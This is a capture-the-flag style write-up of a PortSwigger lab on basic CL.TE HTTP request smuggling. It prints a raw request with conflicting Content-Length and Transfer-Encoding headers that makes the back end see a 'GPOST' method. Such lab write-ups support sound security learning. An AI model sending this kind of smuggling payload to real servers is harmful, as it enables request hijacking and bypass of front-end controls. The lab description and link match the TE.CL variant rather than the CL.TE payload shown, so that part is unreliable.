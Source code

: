# HTTP request smuggling, basic CL.TE vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl) involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

## Reproduction and proof of concept

1. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

The second response should say: ``Unrecognized method GPOST``.

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.
